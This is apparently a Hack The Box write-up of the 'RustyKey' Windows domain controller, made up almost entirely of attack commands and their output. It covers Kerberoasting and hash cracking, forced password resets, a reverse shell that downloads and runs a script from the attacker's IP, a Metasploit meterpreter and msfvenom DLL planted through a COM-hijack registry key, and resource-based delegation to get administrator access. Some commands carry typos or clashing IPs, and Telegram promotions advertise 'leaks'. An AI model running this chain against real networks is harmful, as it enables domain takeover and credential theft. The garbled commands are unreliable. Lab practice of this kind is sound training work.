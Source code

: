 **Platform:** Windows\
**IP:** 10.129.105.53\
**Difficulty:** Hard\
**Author:** NoSec

> 🚨 **Follow live on HTB — leaks, drops, and in-depth writeups**\
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)\
> *Don't read. Join.*

---

## Recon

```bash
nmap -sC -sV -Pn 10.129.105.53
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 23:25 CEST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 23:25 (0:00:01 remaining)
Nmap scan report for 10.129.188.219
Host is up (0.099s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 05:25:30Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m47s
| smb2-time: 
|   date: 2025-06-29T05:25:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.65 seconds
```

We are given a valid credential pair right away:

```
rr.parker / 8#t5HE8L!W3A
```

Edit the hosts file:

```bash
sudo nano /etc/hosts
10.129.105.53		rustykey.htb dc.rustykey.htb
```

Time synchronization is important:

```bash
sudo rdate -n RUSTYKEY.HTB
```

## Bloodhound

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -dc dc.rustykey.htb -gc dc.rustykey.htb -ns 10.129.105.53--disable-autogc -c all --zip
```

IT-COMPUTER3 has permission to add itself to the HELPDESK group, which has ForceChangePassword privileges over BB.Morgan — we'll abuse that.

Let's retrieve the password hash:

```bash
impacket-GetUserSPNs 'rustykey.htb/rr.parker:8#t5HE8L!W3A' -k -request -dc-ip 110.129.105.53-dc-host dc.rustykey.htb -usersfile users.txt -outputfile comp3.hash
```

Crack with Hashcat:

```bash
hashcat -m 13100 comp3.hash /usr/share/wordlists/rockyou.txt
```

Password: Rus<pass>

## Group Add + Password Reset

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password BB.MORGAN 'Password1234'
[+] Password changed successfully!
```

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password EE.REED 'Password123'
[+] Password changed successfully!
```

## Remove from Protected Objects

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```

## Kerberos Configuration

```bash
sudo nano /etc/krb5.conf
```

```
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
    rdns = false

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

## User Flag

```bash
impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:Password1234'
export KRB5CCNAME=BB.MORGAN.ccache
```
```bash
└─$ evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ls
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd ..
*Evil-WinRM* PS C:\Users\bb.morgan> cd Desktop
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> ls


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---        6/29/2025  12:56 PM             34 user.txt
```

## Reverse Shell as ee.reed

```bash
rlwrap nc -lvnp 5566
```

```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.90:8888/Invoke-RunasCs.ps1'); Invoke-RunasCs -Username ee.reed -Password Password123! -Command cmd.exe -Remote 10.10.14.90:5566
```

## Web Delivery and COM Hijack, mm.turner reverse shell

```bash
rlwrap msfconsole -q -x 'use exploit/multi/script/web_delivery; set SRVPORT 8899; set LPORT 8989; set LHOST tun0; set TARGET PSH; set PAYLOAD windows/x64/meterpreter/reverse_tcp; run'
```

After that runs, execute the generated PS command on the target.

```bash
msfvenom -p windows/x64/exec CMD='<base64_encoded_ps>' EXITFUNC=none -f dll > x.dll
```

```bash
curl http://10.10.14.90:8888/x.dll -o \programdata\x.dll
```

```bash
reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\\programdata\\x.dll" /f
```

```bash
rundll32.exe C:\\programdata\\x.dll,DllRegisterServer
```

## RBCD with mm.turner

```bash
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip $ip -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!'
```

```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

## Root flag

```bash
timpacket-smbexec -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Users\Administrator\Desktop

06/24/2025  10:00 AM    <DIR>          .
06/24/2025  10:00 AM    <DIR>          ..
06/30/2025  07:32 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,911,215,616 bytes free
               
type C:\Users\Administrator\Desktop\root.txt
```
---

> Follow for more writeups, real-time leaks, and educational content: **👉 **[**https://t.me/nosecpwn**](https://t.me/nosecpwn)

